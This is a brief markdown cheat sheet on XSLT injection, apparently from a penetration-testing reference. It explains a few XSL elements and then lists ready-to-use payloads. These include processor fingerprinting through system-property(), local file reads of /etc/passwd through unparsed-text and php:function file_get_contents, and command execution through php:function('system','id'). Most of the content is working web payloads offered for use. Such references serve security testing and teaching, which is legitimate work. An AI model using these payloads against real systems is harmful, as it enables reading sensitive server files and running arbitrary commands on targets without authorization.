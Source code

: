 ## XSLT Injection

### Elements

| `<xsl:template>` | This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to                |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<xsl:value-of>` | This element extracts the value of the XML node specified in the `select` attribute                                                                             |
| `<xsl:for-each>` | This elements enables looping over all XML nodes specified in the `select` attribute                                                                            |
| `<xsl:sort>`     | This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument |
| `<xsl:if>`       | This element can be used to test for conditions on a node. The condition is specified in the `test` argument                                                    |

### Injection Payloads

|**Information Disclosure**||
|---|---|
||`<xsl:value-of select="system-property('xsl:version')" />`|
||`<xsl:value-of select="system-property('xsl:vendor')" />`|
||`<xsl:value-of select="system-property('xsl:vendor-url')" />`|
||`<xsl:value-of select="system-property('xsl:product-name')" />`|
||`<xsl:value-of select="system-property('xsl:product-version')" />`|
|**LFI**||
||`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`|
||`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`|
|**RCE**||
||`<xsl:value-of select="php:function('system','id')" />`|